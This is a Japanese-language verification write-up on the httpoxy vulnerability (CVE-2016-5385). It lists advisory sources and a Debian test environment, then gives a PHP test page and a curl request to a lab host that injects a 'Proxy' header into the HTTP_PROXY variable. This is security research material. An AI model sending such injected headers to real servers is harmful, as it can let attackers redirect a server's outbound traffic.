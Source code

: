 ## CVE-2016-5385についての検証

 * 情報源
     * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-5385&searchview=)
     * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-5385)
     * [Github](https://github.com/search?q="CVE-2016-5385")
     * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-5385)
     * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5385)
     * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-5385)
     * [Redhat](https://access.redhat.com/security/cve/CVE-2016-5385)
     * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-5385.html)
     * [bugtraq](https://marc.info/?s=CVE-2016-5385&l=bugtraq)
     * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-5385)
     * [fulldisc](https://marc.info/?s=CVE-2016-5385&l=full-disclosure)
     * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-5385)
     * [oss-sec](https://marc.info/?s=CVE-2016-5385&l=oss-security)

 * 検証環境

```
$ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
$ dpkg -l | egrep 'apache|php'
ii  apache2                        2.4.10-10+deb8u4            amd64        Apache HTTP Server
ii  php5                           5.6.23+dfsg-0+deb8u1        all          server-side, HTML-embedded scripting language (metapackage)
```

まずはHTTPヘッダーを渡すことでHTTP_PROXY変数を埋めることができるのかどうかを確認します。

 * test.php

```php
<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
<?php
echo getenv('HTTP_PROXY')
?>
</body>
</html>
```

 * attack

```
$ curl -H 'PROXY:HTTPOXY VLUN' http://scapegoat.test/test.php
<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
HTTPOXY VLUN
</body>
</html>
```
